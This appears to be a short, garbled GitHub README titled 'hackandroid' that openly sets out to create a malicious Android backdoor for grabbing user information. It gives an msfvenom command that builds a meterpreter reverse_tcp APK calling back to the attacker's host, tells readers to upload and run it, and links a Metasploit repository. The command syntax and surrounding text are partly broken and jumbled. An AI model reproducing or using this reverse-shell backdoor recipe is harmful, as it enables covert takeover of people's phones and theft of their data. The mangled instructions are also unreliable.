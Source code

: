 # hackandroid
hackandroid


Creating a malicious programme that launches backdoor to android and grab user info from wifi to all kinda stuff
using msfvenom and upload programe to this page so everyone knows
its not a payload its an backdoor to your device 
==> list your programme
==> upload your programme
==> enjoy now!

==>HACK_LATER!!!


install msfconsole and msfvenom 
run this on terminal msfvenom -p android/meterpreter/reverse_tcp -LHOST <ifconfig on otherterminal(ip)> -LPORT <no ssh(port number)> >> <filename>.apk execute<venom><upload><save><run> <traceback>.md
  
  venom install in package
  
  install metasploit-framework now
  link ==>> < https://github.com/trustedsec/metasploit-framework.git> <frame-work:;>
